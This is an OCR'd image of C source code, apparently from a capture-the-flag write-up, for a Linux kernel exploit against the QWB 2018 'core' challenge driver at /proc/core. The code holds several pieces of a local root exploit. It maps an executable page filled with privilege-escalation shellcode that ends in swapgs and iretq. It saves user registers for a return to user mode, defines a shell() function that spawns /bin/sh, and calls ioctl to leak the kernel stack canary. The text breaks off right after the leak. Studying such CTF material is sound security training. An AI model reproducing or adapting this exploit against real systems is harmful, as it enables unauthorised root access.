 ```c
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
typedef unsigned int uint;
void Panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
uint64_t u64(uint8_t *buf)
{
    uint64_t res = 0;
    for(int i =0 ; i < 8;i++)
    {
        res = res<<8;
        res+=(uint)buf[7-i];
    }
    return res;
}

char* shellcode(){
    char * gadgets = mmap(0x132000,0x1000,7,0x22,0,0);
    char *str = "H1\xffX\xff\xd0H\x97X\xff\xd0\x0f\x01\xf8H\xcf";
    memcpy(gadgets,str,0x100);
    return gadgets;
}

// xor rdi,rdi
// pop rax
// call rax
// xchg rax,rdi
// pop rax
// call rax
// swapgs
// iretq

void shell(){
    system("/bin/sh");
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}
#define OFFSET  0x6677889C
#define READ    0x6677889B
#define OOB     0x6677889A
int main()
{
    char buf[0x1000]={0};
    int fd = open("/proc/core",2);

    // Leak the data
    ioctl(fd,OFFSET,0x40);
    ioctl(fd,READ,buf);
    size_t canary           =  u64(buf);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core